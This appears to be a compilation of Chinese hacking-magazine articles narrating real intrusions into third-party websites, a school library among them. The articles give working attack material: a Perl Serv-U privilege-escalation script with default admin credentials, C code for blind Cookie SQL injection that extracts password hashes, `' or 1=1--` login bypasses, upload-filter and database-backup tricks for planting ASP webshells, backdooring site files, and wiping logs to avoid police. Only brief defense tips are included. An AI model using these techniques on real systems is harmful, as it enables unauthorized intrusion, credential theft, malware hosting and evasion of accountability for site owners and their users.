天使娃娃果真不负众望，三下两下就拿到 WebShell 了，恩，不错不错，看来我对她刻薄的培训还是很有用的（天使娃娃：懒人的借口！）

偶上传的是海阳顶端网 ASP 木马@2006，习惯性地点一下“WScript.Shell 程序运行器”，出现了“创建对象失败，创建对象‘ws’时出错”，没办法，不支持运行命令。再查看一下“服务器组件探针”，“WScript.Shell”和“Shell.Application”的钩是打上的，但就是不能运行。具体原因嘛，大家要去问 ASP 木马的作者了。

现在有几个办法，先测试跳目录，虽然知道不会成功，但是也要测试一下，因为看样子网站的目录和网站的命名是一样的，存放格式：`d:\wwwroot\网站名\`。跳了一下，不能成功，毕竟是 300 多个网站的虚拟机，还是那句话，如果可以随随便便就跳的话，那肥肥的肉鸡早就流到其他人的嘴巴里了。再测试一下跳几个明星级目录，想寻找一些信息。`C:\Documents and Settings\All Users\Documents`，不能访问。`C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\`，不能访问。`C:\Documents and Settings\All Users\「开始」菜单\程序\`，不能访问，现在可真是有点郁闷了，不能运行程序也就算了，连一些基本的信息都不给偶看看，再跳一下“Serv-U”经常在的几个地方，结果也返回无法访问。

无奈了，既然得不到自己想要的信息，就只能自己测试了。经过探测，对方是 Windows 2003 系统。于是上传 ASPX，不能访问，说文件不存在。哎，又是 Windows 2003 的机制。虽然明明知道这是浪费时间，但仍然把：asax、ascx、ashx、asmx、ASPx、axd、config、cs、csproj、java、jsl、licx、rem、resources、resx、soap、vb、vbproj、vsproj、vsdisco、Webinfo 等后缀都全部测试了一遍。同时天使娃娃那边也没有传出什么好消息，偶又上...传 `cfm`、`jsp` 这 2 个后缀，也不能执行。过了一会，天使娃娃那边终于有好消息来了，她告诉我，主机支持 `cgi`，但不支持 `PHP`，听完之后，心巴凉巴凉的。大家应该都知道“我非我”写过一个 `PHP` 的 Serv-U 提升权限的程序，不用可执行命令，只要支持 `PHP`，还有对方 Serv-U 没改密码，成功率还是很高的，因为 `PHP` 可以直接操作 Socket，可以自定义数据包，比 ASP 强太多了。至少偶是这样觉得的。路又这样断了，再一次叹了一口气，无奈啊！

无聊地翻了翻以前买的书，突然想到，Perl 不也是可以直接操作 Socket 的吗？它的功能和 PHP 相差没多少，都是偶最爱的 C 语言语法。我们亲爱的毛主席说过：自己动手，丰衣足食。让偶再一次发挥我们祖国的优良传统，缺什么，补什么吧。

翻出“我非我”写的那个 PHP 版本的 Serv-U 本地提升权限程序先，因为要发送的数据包都是一样的，只是调用的函数有所不同而已，可以偷懒就一定要偷嘛。发挥一下我们懒人的传统，虽然是小程序，但是我在那里改啊、测试啊、改啊、测试啊，还是花了足足三个小时的时间，才全部测试成功；浪费那么多时间的主要原因，实在很不好意思说了。还是老规矩，因为是自己为自己定制的，所以没有“我非我”PHP 提权工具那漂亮的界面，节约一点时间嘛。在最后的时候，会教读者怎么改代码，因为不能直接就用，直接用的话，会发现什么效果都没有。OK！在本地测试完全成功以后，把程序上传，放到了 `http://*****/1.cgi`，在浏览器中打开，如果发现浏览器假死（反正就卡在那不动，也不显示完成），那么恭喜你啦，马上 `cmd`，然后 ftp 上去吧；如果只是一打开出现登录失败，那么很遗憾，对方改密码了；如果什么都不出现，或者出现“fail”，那就说明对方已经改了管理端口。至于怎么找就看自己的本事了。反正偶是提升权限成功了，拿出我的 ftp 登录上去，那种感觉真舒服。有了 `d:\` 所有的权限，其他的就不用说了，就等着肉鸡滚滚而来吧。

现在说说怎么改代码。在代码开始的地方：`$addr='127.0.0.1'`，这里你可以 ping 一下你要黑的站点的域名，把得到的 IP 替换 `127.0.0.1`。`$ftpport=21;` 这个是对方 FTP 的端口，一般来说不用变了。`$adminport=43958;` 不用说了吧，Serv-U 的管理端口，如果管理员把默认端口改了，你有本事找出来，也不妨把这里的设置改了。

```perl
$adminuser = 'LocalAdministrator';
$adminpass = '#I@sak##IKO@P!';
$user = 'Andyower';
$password = 'haika';
$homeDir = 'C:\\';
```

账号和密码，管理员把默认的改了的话，你知道是多少，也把它改了吧。你要添加的用户名和密码是多少，`$homeDir` 要去的盘符是多少，顺便你也可以改成别的。改好了就可以上传，然后用浏览器打开。偶已经搞定了，上传 rootkit，抹杀日志。关于抹杀日志，偶又不能不再啰嗦一次，因为以前偶一直很懒，所以入侵网站从来不擦日志，直到有一天听说一个朋友被警察叔叔请到了上海喝茶，到现在还没有回来，真是够久的，同时也很担心下一个就是偶了。没办法，不能怕懒，一定要把所有的日志都全部删除。

当时一直想找一款擦日志的工具，可以把包含有指定 IP 的 IIS 日志全部删除了，但是一直就是找不到，于是很郁闷地自己写了一款擦日志的工具，可以把指定文件中包含某 IP 或者某字符的信息删除了。比如说在参数那写“and”，就会把文件中所有包含“and”的内容删除，接着会把文件时间还原到没有变过的样子。后来一个叫 lucky_feng 的黑防 VIP 会员说小榕的 cleaniis 应该更方便吧，我郁闷，原来工具早就有了，而且比我这个方便很多，不用指定文件。好了，安全第一，清除日志，走人。要不然到时候被请到某个地方喝茶，就不知道什么时候才可以回来了。

## VIP会员学习成果展

### 后台上传WebShell


文/图 勇哥儿

9xiao 写的一篇文章《从后台得到 WebShell 技巧大汇总》中提到了十种上传 WebShell 的方法，总结得不错，非常实用。同时我的利用 Cookie 上传法不知是否也算一种。有一个朋友遇到一个站是动力 3.6 系统，能进后台，但没能成功上传 WebShell。经过一段艰苦的探索，我终于想出了办法，成功地上传了 WebShell，特此共享，以供广大黑迷以及黑防的各位 VIP 们借鉴。以后大家有什么好的方法多交流。也许大家不会遇到这种情况，但是文中提到的各种思路也许能用得上，希望各位 VIP 能掌握（不能再啰嗦了，WTF 块那么大，偶好怕怕哦，不学会太极的四两拨千斤还真不敢和他过招）。

动力 3.6 系统（其实一开始没看出来是什么系统，下文将介绍如何找后台系统名称）后台默认用户名和密码分别是 `admin` 和 `admin888`，这样就轻松进来了。先利用最常用的方法查找后台是否有上传漏洞；虽然有上传图片的地方，但是不存在漏洞，上传文件的地方好像有漏洞但是管理员已经删了，看来自路不通。然后找是否有数据库备份功能，每个地方都仔细找了一遍都没找到，看起来也没戏了；但是找到了一个能够修改上传文件类型的地方，心中惊喜得很，添加了 ASP、asa、asP、cer 等文件类型都没上传成功，如图1所示。


看来程序里面已经过滤掉了常用的这几种类型的文件，结果空欢喜一场。难道真的没办法了吗？这时候想到既然管理员的用户名和密码是系统默认的，数据库会不会也是默认的呢？如果数据库是 ASP 结尾的，写个一句话木马进去，不就成了吗？利用明小子的旁注工具里带的工具猜测一下数据库，结果让人失望。看来只能找源程序了。下面给大家提供几种找系统名称的方法：

- 查看版权信息
- 查看页面的 HTML 源代码
- 在百度或 Google 里搜索一下后台的文件名（如 `Admin_Class_Article.asp`）
- 在网址中输入 `readme.txt`、`说明.txt`、`setup.asp`、`install.asp`、`update.asp` 猜测一下
- 浏览后台每一个页面，仔细观察（有时管理员忘记修改版权提示信息）

通过上述方法的综合利用，然后找到了程序名称。接下来的任务就是在本机上搭建一下自己的模拟环境。先查看默认的数据库目录和名称为 `database/fp360609.asp`，输入网址后如图2所示。


说明文件存在但是报错了，很有可能是数据库里添加了防下载功能。进入模拟环境的后台，奇怪的是发现，利用默认密码 `admin888` 和用户 `admin` 登录，权限同样是超级管理员，但是在模拟环境中有数据库备份功能，真实环境中没有；是管理员关了，还是权限不够？可是在真实环境中显示的 `admin` 也是超级管理员，因此怀疑可能存在其它的登录用户，可能权限更高，具有数据库备份功能；那怎么才能得到其它用户呢？数据库的表结构已经存在了，只要能找到一个存在注入的主页就可以了。经过测试找到一个存在注入的页面：`http://www.***.com/Announce.asp?ChannelID=1`，注入结果如图3所示。


每个用户均登录一次后，发现都没有数据库备份功能，而且 `admin` 具有最高权限。怎么才能上传 WebShell 呢。看来今晚是没办法了。第二天回来后继续研究，发现有时候人的思维老研究一个东西可能会定式，休息一下或娱乐一下后可能会有新思路。有点扯远了，还是言归正传！有的朋友可能会说，虽然页面上不存在数据库备份功能，直接打上链接不就行了吗？其实这个方法我已经早试过，输入链接 `http://www.***.com/admin_database.asp` 后如图4所示。


都闪吧，程序里面做了设置，直接输入网址是不行的，但是有一点可以证明，这个文件是存在的。那再来实验一下 Cookie 欺骗上传法，抓取模拟环境中利用数据库备份 WebShell 的包，修改其中的网址、Cookie 与包长度，然后利用瑞士军刀提交，结果仍然是让人郁闷。没有条件创造条件也要上。突然灵机一动，虽然程序不让直接输入地址访问后台管理页面，那我利用 `admin`（超级管理员）登录后，在文章管理里面添加一篇文章，在文章内容中加入一个超链接。聪明的你可能已经想到了，它就是指向数据库备份的页面，如图5所示。


现在还不能点击，在文章添加前台是可以点的，这样刚才加的超链接就可以点击了。点击后如图6所示。


数据库备份页面终于打开了，哈哈。大家应该已经看到上图的“备份数据库”“恢复数据库”“压缩数据库”“系统初始化”“系统空间占用情况”等功能了吧。那我们就利用“恢复数据库”功能来备份 WebShell 吧，接下来很多朋友可能已经是轻车熟路了。类似动网，先把 WebShell 改成图片文件，利用上传功能上传上去，然后再利用恢复数据库功能备份 WebShell，如图7所示。


这样就成功地在 `database` 目录下备份了 `hello_hf_vip.asp` 这个 WebShell。文章到此已经接近尾声，但是探求更新的方法远没有结束。总结一下此文，关键的地方是：有时候页面上找不到的东西，通过源程序我们会得到更多，找到更多的隐藏信息；即使发现隐藏信息，程序可能做了某些限制，不能直接打开，那就只好变通一下。此例通过一个超链接敲开了通往数据库备份的大门。

脚本小子：很多时候，NBSI 之类的傻瓜化注入工具在日益加强过滤的 Web 程序面前会失去作用。这个时候，Cookie 注入攻击就是一个很不错的方法。

适合读者：脚本爱好者，入侵爱好者  
前置知识：SQL 注入基础

## Cookie注入的精彩
## ——浅析雪人论坛修改版漏洞

文/图 创心[B.C.T]

最近因为搬家不能上网，闲得无聊，于是从网上下载各种各样的程序下来读、找漏洞。尽管很多程序漏洞依然大面积存在，但是也很开心地看到更多的程序也变得很安全。有的甚至真的找不出明显的安全漏洞。看来程序员的防范技术都很不错，学到不少安全方面的东西。

尽管一些简单而明显的漏洞已经很难发现了，但是还是有些地方需要注意。一些漏洞在 ASP+Access 环境下尽管利用很苛刻，但是危害很大，这里我就以雪人论坛修改版做例子说一下这些漏洞。

雪人论坛是国内比较大的一个论坛，ASP+Access 结构，早期的时候听说过存在过 SQL 注入漏洞。它的修改版本众多，我就找了个叫做颓废者论坛的修改版本，大致看了下，大部分都是存在这种漏洞的……

看了 `index.asp` 里面的一些代码，我的是颓废者论坛（简约版），其他版本核心代码也是一样的：

```asp
if request.Cookies("sf")("username") = "" then
    ...
else
    StrSQL = "select posts, rating, usertitle, lastvisit from sf_user where username = '" & request.Cookies("sf")("username") & "'"
    Set rs = server.CreateObject("ADODB.RecordSet")
    rs.Open StrSQL, Conn, 1, 1
end if
```

还有下面的另外一段代码：

```asp
if request.Cookies("sf")("username") <> "" then
    StrSQL = "select userid from sf_user where username = '" & request.Cookies("sf")("username") & "'"
    Set rs2 = Conn.Execute(StrSQL)
end if
```

看到了吧！都是直接取出 Cookie，然后查看内容是否为空就送到了 SQL 语句中，经典的 SQL 注入漏洞诞生了！但是这里的漏洞很特殊，注入是存在于 Cookie 中的，很难常规利用……

肯定也想到了，如果与 Union 用户表一起查询，不就把密码给查出来了？但是很不幸，我故意写出 2 个漏洞 SQL 语句就是要大家看到，2 个 SQL 语句里的字段不一样，你无法构造语句同时满足 2 个查询。并且由于是在 Access 里的关系，我们无法结束这个 Select 语句构造自己的语句，所以只能查询一些内容。但是加密的 Password 有 16 位！属于鸡肋漏洞。

按照平时的习惯，一个文件里存在问题，其它文件也应该存在类似的问题，但是当我查看其它几个文件的时候发现，所有取得的 Username 等变量无一例外地用 ChkSQL 函数过滤了，代码如下：

```asp
StrSQL = "select password, userid from sf_user where username='" & chkSQL(request.Cookies("sf")("username")) & "'"
Set rs2 = Conn.Execute(StrSQL)
```

再看看 `inc/char_inc.asp` 文件里的 ChkSQL 函数：

```asp
function ChkSQL(StrSQL)
    if IsNull(StrSQL) then
        ChkStr = ""
        exit function
    end if
    ChkSQL = Replace(StrSQL, "'", "")
end function
```

过滤了单引号，过滤虽然简单，但是对于这个参数却是致命的，因为 Username 等都是字符串，过滤了单引号就没有办法构造自己的 SQL 语句了……既然有现成的，就来看看如何把 Access+Cookie 注入这个鸡肋漏洞转成入侵的利器吧！

来分析下 `index.asp` 的 Cookie 注入漏洞，很明显这是一个字符类型的注入漏洞。按照常规的利用办法，要么是利用已有的注入工具如 NBSI 注入，要么就是自己手工注入。但是大家都知道这两个办法是不可能的，因为 NBSI 等不提供注入 Cookie 功能，手工修改 Cookie 然后用 IE 访问，猜测一个密码起码一个下午……

## 脚本攻防

栏目编辑/脚本小子 `scriptsboy@hacker.com.cn`

况且注入差不多都是这个思路，有人用的是中间代理修改自己的数据包，但是这里我们还要更复杂点。手工不行我们就用工具吧，不是用 NBSI 什么的哦！自己打造个工具吧！因为这样的情况也许以后还要遇到，具体的环境也许不一样，但是思路肯定是相似的。我们注入的原理是将构造好的特殊变量提供给服务器，然后查看服务器的返回结果……

其中 Cookie 中的 `username=admin'+and+SQL语句+'+and+'admin'='admin` 就是我们构造的注入语句……提交到 SQL 里面就是：

```sql
select userid from sf_user where username='admin'+and+SQL语句+'+and+'admin'='admin'
```

只要我们构造好 SQL 语句就可以完成查询了……通过自己构造 Cookie 里的 username 为 `admin'+and+1=1+and+'admin'='admin` 和 `admin'+and+1=2+and+'admin'='admin` 分别提交，访问下看看区别，如图1、图2所示。

```c
main()
{
    if(WSAStartup(MAKEWORD(2,2),&wsa)==0){
        usage();
        initconnect();
        injection();
        WSACleanup();
    }
    return 0;
}
```

接收参数和网络初始化这里我就不说了，初始化之后我们就可以跟服务器之间传递数据包了！`Injection` 函数完成我们今天主要的注入功能。


我的注入思路是这样的，构造一个发包函数如 `senddata()`，专门负责程序发包和查看返回数据，推断发送的 SQL 语句成功还是失败……

```http
GET /www/bbs/forum/forum/index.asp HTTP/1.1
Accept: */*
Referer: http://127.0.0.1/www/bbs/forum/forum/profile.asp
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: 127.0.0.1
Connection: Keep-Alive
Cookie: sf_userid=2&password=...&username=admin'+and+SQL语句+'+and+'admin'='admin; ...
```

注意记录下差别哦！当记录为真的时候返回的是 `HTTP/1.1 200` 消息，为假的时候为 `HTTP/1.1 500` 消息，抓住返回的关键字就可以了……

```c
int senddata(char * sendsql)
{
    char receive[500000]="\0";  // 一些变量初始化
    ...
}
```

```c
......
strcat(cookie,"Cookie: sf_userid=2&password=a9e8d8a614eab646&username=badegg'+and+"); // 构造Cookie的注入数据封包
strcat(cookie,sendsql);
strcat(cookie,"+and+'admin'='admin;\r\n\r\n");

send(server,"Accept: */*\n",strlen("Accept: */*\n"),0); // 发送数据封包
......
send(server,"Connection: Keep-Alive\n",strlen("Connection: Keep-Alive\n"),0);
send(server,cookie,strlen(cookie),0);
if(recv(server,receive,50000,0)>0){
  if(strstr(receive,"HTTP/1.1 500")!=NULL){
    ZeroMemory(receive,5000);
    return 1;
  }else return -1; // 接收数据封包并且根据返回内容判断SQL语句的真与假
}
```

这样就构造好了 `Senddata()` 函数，它的参数是我们要查询的 SQL 代码，如果代码为真就返回 1，如果代码为假就返回 -1。现在简单了吧！如果我们要查询是否有漏洞，可以直接在 `Injection` 里用以下语句判断：

```c
if((senddata(i!=1)==1)&&(senddata(i!=2))) printf("漏洞存在!\n");
```

这样就可以根据两次返回结果的情况判断漏洞是否存在了！至于如何判断密码也很简单，我用的是循环比较，部分代码如下：

```c
char string[]="0123456789abcdefghijklmnopqrstuvwxyz"; // 定义密码范围
for(i=1;i<=16;i++){ // 外层循环构造查询的SQL语句
    ZeroMemory(dosql,sizeof(dosql));
    strcat(dosql,"(select+mid(password,");
    strcat(dosql,i,1)+from+sf_user+where+userid=1);strcat(dosql,userid);strcat(dosql,")='\"");
    strcat(sqltemp,dosql);
    for(k=0;k<36;k++){ // 内层循环构造总的SQL语句并且判断结果查询密码
        ZeroMemory(dosql,sizeof(dosql));
        strcat(dosql,sqltemp);
        count[0]=string[k];
        strcat(dosql,count);
        strcat(dosql,"\"");
        if(senddata(dosql)==1){password[i-1]=string[k];printf("%c",string[k]);break;}
    }
}
puts("\r\n\nWe Got It!Enjoy It :)\n");
```

外层循环判断密码的位数以及构造 `(select+mid(password,i,1)+from+sf_user+where+userid=1` 这样的语句，内层循环是判断前面查询出来的结果是多少。这里是循环与定义好的数字和字母相比，相等的时候说明正确，因为 MD5 加密的密码就是这些组成的，不需要用什么二分法，很快的哦！

主要部分和思路给大家说完了，最后就是一些程序的修饰和功能完善了，加点错误判断什么的，大家自己完善吧，功能好的话一个通用 Cookie 注入工具就出来了！这里已经浪费很多版面了！我就不说了！我初步编译的程序如图3所示。


还不错吧！一个鸡肋漏洞变成大漏洞了！查询到密码后，欺骗还是暴力就看你的了！网络上的版本众多，也许有些具体数据包不一样，所以思路有了，大家可以根据抓到的包写自己的 EXP！但是不要用来破坏哟！

雪人的官方版本 1.5 也是存在这样变量过滤不严的问题，大家可以在雪人官方下载下来看，但是 1.5 的漏洞利用起来有点问题！作为 Cookie 注入的一个例子，我们也来看看代码吧！

```vb
......
if Request.Cookies("User")("Name")<>"" then
  strsql="select * from messages where To = '" & Request.Cookies("User")("Name") & "' and New = true"
  set rs = server.CreateObject("ADODB.RecordSet")
......
```

同样没有做判断就放到 SQL 语句里了，看看取出来的记录怎么处理的！后来就用了个 `<%=rs.RecordCount%>` 这样的语句，狂汗！Access 是不支持多句查询的，这个漏洞算是死了，但是如果是 SQL 版的话，程序就完蛋了。网络上都不外乎这 2 种版本，我的分析到此为止了！因为数据包构造的关系，具体的 exp 程序就不给大家了，呵呵，要的上黑防论坛找我！最后总结下，对于脚本程序作者来说，任何安全都马虎不得，所有变量都是有害的。对于安全爱好者来说，变量存在问题你该如何利用呢？学习编程和发挥想象力吧！譬如这个 Cookie 变量不能搞到密码的话，你可以去发帖子的地方以管理员身份发帖子，一样也是可利用哦！呵呵，不说了，大家自己测试吧，有什么问题欢迎到黑防论坛讨论，我的 ID 是剑心大人。

适合读者：脚本爱好者，入侵爱好者  
前置知识：脚本入侵基础

## 纯脚本颠覆 cnki数字图书馆

文/图 morephaze

新年伊始，各位黑迷一定打算痛快地过个新年吧。鸡年已经过去了，手头上也应该添置几台肉鸡了吧？没有鸡咋过年呐？哈哈，言归正传，最近小弟偶得一漏洞，不敢独享。而且，以这一漏洞的普及率，相信各位黑哥哥们也不愁没鸡过年了。

### 目标站点探

我们的目标是学校的图书馆，因为攻占了图书馆以后，就意味着可以把一些游戏上传到 Web 服务器上去，到时候想玩就不用去网吧了，直接在图书馆的检索机上玩就行了，这不就省下了一大笔费用了么？哈哈，又跑题了。好了，先打开浏览器，敲入图书馆的地址 http://libwww.xxx.xxx，发现有好几处是 JSP 的页面，可惜我菜啊，不大懂这东西，只好绕道了。终于找到了一个“馆长信箱”的地方，是用 ASP 构建的，用注射应该可以进去吧，找到管理入口了，如图1所示。


图1

在用户和密码框里都输入 `' or 1=1--`，点击登录，yeah！竟然进去了，如图2所示。

看来还是高兴得太早了，后台除了回信和管理用户以外，没什么可以利用的地方。只好再次绕道。


图2

在页面的左下方有一个“cnki数字图书馆”的东西，也是用 ASP 构建的。看一下里面的公告，竟然是 2003 年的，看来是年久失修啊。于是找了个注入的地方，如图3所示。


图3

提交了一个单引号，结果返回“类型不匹配”的提示。在这可以庆幸一下，至少不是那个“处理 URL 时出错，请与管理员联系”，因为注入不成还可以爆库。提交 libwww.xxx.xxx/inc/conn.asp，呵呵，运气不错，如图4所示。


图4

一下子就把它的数据库爆出来啦，这下爽了。马上用 Access 打开，找到了一个 cnki 的用户，很可能就是 admin 权限的。可惜密码经过 md5 加密，没办法，为了免费的东西，暴力破解也要试一试了。我用的是 md5 cracker v2.3，一般来说是优先选择纯数字的组合（国人的安全意识有限啊）。cracker 已经开始跑起来了，这边也别闲着，猜后台，很简单的后台：admin/login.asp，如图5所示。

顺手输入一个弱口令 cnki/cnki，哈哈，竟然进去了，可怜的 md5 cracker 还在跑这个 cnki。进去后看了看后台，挺简单的嘛，如图6所示。


思路就是修改网站的 upfile.asp 那样。先抓包→修改→用 nc 提交，过程我就不写了，反正是传不了，读者可以参考以前的黑防。

对于那个判断上传的 ASP 文件，因为当时手里没有源码，就无法具体分析。但是我猜想，那个负责判断文件类型的 ASP 文件是不是碰到不含有 .mdb 的文件就报错呢？我们知道一个文件若改名成 mm.jpg.exe，在 Windows 的默认设置是不显示这个文件的 exe 扩展名的，这个平时玩过木马的人都知道。那么，mm.mdb.asp 这个脚本程序能不能骗过系统呢？有待验证。我们把木马 newmm.asp 改成 newmm.mdb.asp，再去上传提交，返回如图9所示的页面。又出错？难道真的传不了么？（脚本小子：别把 Windows 系统想得太简单了，它不显示扩展不代表不检测。）


现在的任务就是把 WebShell 传上去了。

## 上传 WebShell 之旅

在后台找到了一个能上传的地方，先传个小马 newmm.asp 再说，点击提交，结果返回“无法找到该页”，如图7、图8所示。

看来简单不等于简陋啊。难道只能传 .mdb 文件？管它，先把爆回来的库传一下，可以传上去。现在还有个……


呆呆地望着 IE 许久，猛然，我留意到出错页面的那么几个字：“不可识别的数据库格式 'd:\cnki\jx\admin\New_database\newmm.mdb.asp'”。这不是一串物理路径吗？既然不是自己机器上的路径，那必然是服务器上的路径啦！差点与这只“肥鸡”失之交臂。（什么？看不懂？我们的小马已经传上去啦！）马上去访问 libwww.xxx.xxx/admin/New_database/newmm.mdb.asp，如图10所示。


我们的马儿又回来了哦！接下来的事情就简单了，把 icx 的海洋 2006 版 ASP 木马传上去，再在它的 n 个 ASP 文件里插入了后门（真够狠的，汗），这样就万无一失了。接下来要传什么东西就随你的便了，相信如果设置的不是很 BT 的话提升权限应该是不成问题的，真的不行就得复习以前的黑防吧。我的这台机器可是“牛鸡”哦，有四个 CPU 的，如图11所示。


```asp
mytable = CStr(mystring(0))
myex = CStr(mystring(1))
if trim(myex) <> "mdb" then
    response.redirect("updata.asp?id=2")
end if
```

真的是不堪一击的过滤。晕~

### 漏洞分析

进去以后，看了一下代码，找到下面这一段关键的地方：

```asp
<%
path = Server.MapPath("./New_DataBase/")
filename = SaveFile("fruit",path,1040000,2)
if filename = "" then
    response.redirect("updata.asp?id=1")
end if
department = GetFormVal("department")
Dim mystring
mystring = Split(filename, ".", -1, 1)
%>
```

### 漏洞防范

有兴趣的朋友可以到网上去搜索一下以下几个关键字“cnki 数字图书馆”……在这里，我们也可以采取相应的防范措施，具体有以下几点。

- 在 IIS 设置里把“处理 URL 时出错”的相关选项配置好，再配合改了名的数据库。
- 为防止其他注入点对数据库进行猜解，可以把默认密码改得更复杂。
- 改掉那个不堪一击的过滤逻辑。

后记：希望新的一年里国内的管理员安全意识能有所提高……抓鸡只是为了技术，最好不要搞破坏。

> 作者语：黑防的小编们，感谢你们为读者和社区所做的工作……祝《黑客防线》越办越好！

---

**适合读者**：脚本爱好者，入侵爱好者  
**前置知识**：无

## 对.mtn某学院的一次渗透

文/图 morephaze


读黑防已有三个春秋了……这次的入侵是对某 mtn 院校进行的，对某些图片也进行了处理。首先侦察一下情况，在 cmd 下 telnet 目标 IP……一切就从这里开始。

因为阅历尚浅，始终看不出是什么整站系统……先看一下有没有注入点，在新闻页面提交了一个单引号，返回结果如图2所示。又找了几处注入点……再看能不能混进内部。


图1


图2


图3

“酱油”——暴库，结果是对方可能在 com、asp 加了“on error resume next”这一句话，还是行不通啊。真的没辙了么？细想一下，这个站点上有注册用户的功能，只是已被关闭而已，一些栏目的新闻有些图片。随便找到一个，点“属性”看到了图片的路径 xx.mtn/uploading/xx.jpg，看来上传是我们最后的法子了（谁叫我是只菜鸟呢？）。

在这里要说一下，一般的网站都有一个上传的 ASP 文件，若此 ASP 文件不跟用户的 Cookies 信息挂钩的话，是很有价值的。至少你入侵不了还可以把垃圾图片往它站点里塞，然后威胁 admin 交出 username 和 pwd 哦。回到正题，至于此文件名的猜解，要看自己的经验，我第一次猜了个 upload.asp，结果失败，再来一个 admin/uploadface.asp，呵呵，如图4所示。


图4

打开抓包监听工具 winsock expert 汉化版，打开上传的窗口进程，点击打开，回到上传页面，选择一匹烈马 newmm.asp（此马体积一般，却威力无穷），点击上传，返回“文件格式不对，请重新上传！”，如图5所示。再回到 winsock 看到有一行以 post 开头的数据，如图6所示。

左看右看怎么跟动网以前的 upfile 表单一样的呢？既然如此，手头上又没有专门的上传工具，自己又不会编程，用 nc 提交又很费劲，偶就偷偷懒，借用老兵的工具看看行不行。打开桂林老兵“动网上传利用程序”，在地址处填入 xx.mtn/admin/uploadface.asp，再在文件夹下填入 admin/shell.asp，找到 newmm.asp，Cookies 那里可填可不填。从抓包分析的情况来看，此 uploadface.asp 根本不检验提交数据用户合法性，这也是这次入侵的关键。最后点击“文件上传”，很快返回了“上传成功”的字样，再切换到浏览器敲入 www.xxx.mtn/admin/shell.asp 回车，如图7所示。


图5


图6


图7

小马现身了，现在只需传一个大木马上去就告一段落了。这里我用的是海洋顶端网 2005 美化版，广告我也不吹了，纯属个人喜好哦！海洋传上去了，如图8所示。


图8

输入密码以后你就能够进行许多“非法操作”了，呵呵，读了黑防那么久，权限提升自然不成问题啦，在此不多说，读者们可以去翻一下以前的黑防。进了以后就不要干坏事哦，除非你喜欢铁窗的生活。

总结一下这次渗透的情况，总体来说整站设置得相对安全，能够抵住一般的 Toolkid 进攻，但由于 ASP 编者的小疏忽，而使整站被非法用户控制，使得煞费苦心的一番安全设置全部都白费了。若能限制非法用户调用 admin 目录下的 uploadface.asp，恐怕也就不会有此文了。希望 ASP 编者能够更细致一些，别让现在的黑站挂马满天飞！

关于得到 WebShell 后的利用，很多同迷来问我到底有什么可以利用的（尤其在提权不成功的情况下）。可以说 WebShell 还是有很多“科研”价值的，比如说有利于扩大成果；你可以把一些跨站接收 Cookie 的脚本放到隐藏的目录里，或者把网页木马的 ASP 文件放上去直接挂马（若肉鸡不支持 ASP，哪来的 WebShell 啊？）。另外，NB 一点的还可以在人家主机的眼皮底下放个论坛哦！此外，弄大一个 ASP 免费空间（可达 G 级哦！）不是你蹬破铁鞋梦寐以求的吗？

---

脚本小子：图片和数据库文件备份成 ASP 或 ASA 木马是大家经常使用的获得 WebShell 的手段，然而将 ASP 文件备份成图片文件，也会有想不到的奇妙效果。

适合读者：脚本入侵爱好者  
前置知识：SQL 注入

## 反其道而行之：ASP备份成图片

文/图 lucky_feng

听说朋友的朋友最近配置了一台价值 7 万元的服务器（脚本小子：有钱人一个），页面上能够看到的只有一个 dvbbs7.1 SP1，感觉无从下手。直到有一天，朋友告诉我论坛新增的博客系统数据库是默认的 data/Dvboke.mdb（其实很多管理员会修改动网论坛数据库路径，但是博客数据库路径很少人会去修改），入侵就这么开始了。

## 博客入侵失败

黑防以前有篇文章，名称是《动网7.1SP1进后台靠博客得WebShell》，现在既然有了博客的数据库，所以先从这里入手吧。

下载了博客的数据库，找到管理员密码 c45f4399e5a3d1bd，MD5crack 出马，运气还不错，不到十秒钟就得到一个七位数的纯数字密码。马上拿着这个密码冲到 dvbbs7.1 尝试以管理员身份登录，不过没有成功……因为动网博客需要先登录论坛才能管理，所以通过博客入侵的方法只能被迫取消了。

## Google hack 小试牛刀

虽然此服务器不是虚拟主机，但是站点上应该不只一个论坛吧？请来了 Google，输入 `site:www.b***.net`，输出结果有好几十页，大多数是关于论坛版面或帖子信息，不过同时也发现有一个风华校友录2.0多用户版，还有一个伴江行网上购物系统6.0。

## 入侵伴江行购物系统

风华校友录2.0就是以前风月校友录的升级版本，上传漏洞已经修补了，而且现在只允许传图像文件……至于伴江行购物系统6.0（最新版本是6.0 SP1），10 月底的时候发布过注入漏洞。手工注入发现站点的 `gongqiu_view.asp` 文件存在漏洞，结果如下：

`http://www.b***.net/shop/gongqiu_view.asp?gq_id=53%20and%201=1`，正常显示，如图1所示。


图1

`http://www.b***.net/shop/gongqiu_view.asp?gq_id=53%20and%201=2`，出错，如图2所示。


图2

接着就交给啊D了，结果得到 MD5 加密过的密码 7a57a5a743894a0e。这个不就是传说中 admin 加密后的密文吗？用账号 admin、密码 admin 直接进到商城后台，发现商城在动网的下一级目录中，如图3所示。


图3

## 备份生成ASP木马

相信很多人都认为到这一步，肯定可以马上得到 WebShell 了。其实当我进到后台时，也是这么认为。但是现实往往比理想来得残酷些，管理员 BT 的设置让下面的几个方法全都失败了。

方法一：正常备份和按目录备份。首先通过“商品资料添加”上传一张图片（ASP 木马改了后缀），如图4所示。


新开一个上传页面，并且上传成功后，不要选择弹出来的“关闭窗口”。然后察看 IE 源码，在这你才能看到上传图片的真正路径……然后用上传的图片备份数据库成 ASP 文件，如图5所示。


提示备份成功，在正常的情况下，直接访问 databackup/shop.asp 就可以得到 WebShell 了。我的情况如图6所示。


具体原因是管理员设置 databackup 目录禁止执行 ASP 文件……原本的 databackup 目录不行，那么改变备份数据库目录到 admin 试试……方法二：上传抓包，提交修改的数据包……

## 得到动网数据库

试了这么多方法都没有成功……把 ASP 木马文件改成 JPG 文件也能显示 ASP 原本的内容……再次备份，查看 conn.asp 内容，如图7所示。动网数据库地址是 b***/dvbbs71.asp……第三次备份动网数据库成 mdb 文件到商城的 databackup 目录，然后看到 FlashGet 在快速地工作……成功得到论坛数据库。


## 峰回路转得到WebShell

动网的管理员密码已经从数据库中破解获得，但还是没有得到 WebShell……得到 WebShell 需要满足两个条件：目录可写、目录可运行 ASP 木马……在 Skins 目录测试时两个条件都符合……客户端连上去后得到熟悉界面（但大木马备份成功后都不能正常运行），如图8所示。


### 总结

- 该服务器在动网目录下还有测试代码，测试程序和目录权限设置问题会带来严重安全风险。
